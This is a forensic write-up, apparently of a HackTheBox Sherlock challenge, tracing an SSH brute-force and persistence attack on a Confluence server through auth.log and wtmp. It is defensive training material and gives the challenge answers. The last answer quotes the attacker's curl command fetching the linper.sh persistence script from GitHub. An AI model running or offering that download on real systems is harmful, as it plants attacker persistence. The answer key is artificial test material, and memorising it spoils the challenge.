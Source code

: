 # Sherlock Scenario

investigation, we will explore Unix `auth.log` and `wtmp` logs to track an attack on a Confluence server. The attacker brute-forced SSH access and performed additional activities, which we will analyze through log artifacts. Although `auth.log` is primarily used for brute-force analysis, we will investigate its potential in identifying privilege escalation, persistence, and command execution.

## 1. Attacker's IP Address

**Question:** What is the IP address used by the attacker to carry out the brute-force attack?

By analyzing `auth.log`, we can observe multiple failed SSH attempts originating from the attacker's IP address.

![Screenshot from 2025-02-26 14-09-44](https://github.com/user-attachments/assets/b68cffa3-f966-4c42-8478-3730370c2fb3)


**Answer:** `65.2.161.68`

---

## 2. Attacker's Accessed Username

**Question:** What is the username of the account that the attacker successfully accessed?

Upon reviewing the logs, we can see successful SSH access attempts aimed at gaining `root` privileges.

![Screenshot from 2025-02-26 14-09-44](https://github.com/user-attachments/assets/95f33114-9f64-4cca-9afc-cf6ab7ff09f2)


**Answer:** `root`

---

## 3. Attacker's Login Timestamp

**Question:** Identify the timestamp when the attacker manually logged into the server.

By checking both `auth.log` and `wtmp`, we can determine the exact login time using the `utmpdump` command:

```sh
utmpdump wtmp
```

From the logs, we confirm that the attacker successfully logged in at:

![Screenshot from 2025-02-26 14-12-13](https://github.com/user-attachments/assets/f328905f-cc47-4726-b592-f979e1c1884a)


**Answer:** `2024-03-06 06:32:45`

---

## 4. Attacker's Session Number

**Question:** What is the session number assigned to the attacker's SSH session?

The session ID assigned upon login can be identified in the logs. The attacker's session number was:

![Screenshot from 2025-02-26 14-40-23](https://github.com/user-attachments/assets/e972b665-7641-4cf1-8f3b-c85a5b978da1)


**Answer:** `37`

---

## 5. Attacker's Persisting User Account

**Question:** What is the name of the new user account created by the attacker for persistence?

By using the `grep` command to search for user creation events in `auth.log`, we find that the attacker created a new user:

```sh
grep -iE "new user" auth.log
```
![Screenshot from 2025-02-26 14-21-23](https://github.com/user-attachments/assets/e194b4ea-3cc8-44b7-9a3c-00781ea01fb3)


**Answer:** `cyberjunkie`

---

## 6. MITRE ATT&CK Sub-Technique ID

**Question:** What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

MITRE ATT&CK is a framework that categorizes attack techniques. The sub-technique for creating a new user account for persistence is:

![Screenshot from 2025-02-26 14-33-33](https://github.com/user-attachments/assets/63f34294-f818-4e3a-82ed-4e195dd4fcdb)

**Answer:** `T1136.001`

[MITRE ATTACKer](https://attack.mitre.org/)
---

## 7. Attacker's First SSH Session End Time

**Question:** What time did the attacker's first SSH session end according to `auth.log`?

Since we already identified session ID `37`, we can filter for session termination events:

```sh
grep -iE "session 37" auth.log
```
![Screenshot from 2025-02-26 14-40-23](https://github.com/user-attachments/assets/d3079449-22d2-46f9-a336-267bd8ccabc4)


The attacker's first session ended at:

**Answer:** `2024-03-06 06:37:24`

---

## 8. Command Executed by the Attacker via Sudo

**Question:** What is the full command executed by the attacker using sudo?

By searching `auth.log` for activity related to the `cyberjunkie` account:

```sh
grep -iE "cyberjunkie" auth.log
```
![Screenshot from 2025-02-26 14-44-35](https://github.com/user-attachments/assets/a54b0e53-0060-4b11-9af4-82c1c2e1d5a8)


We found that the attacker used `curl` to download a script:

**Answer:** `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

---


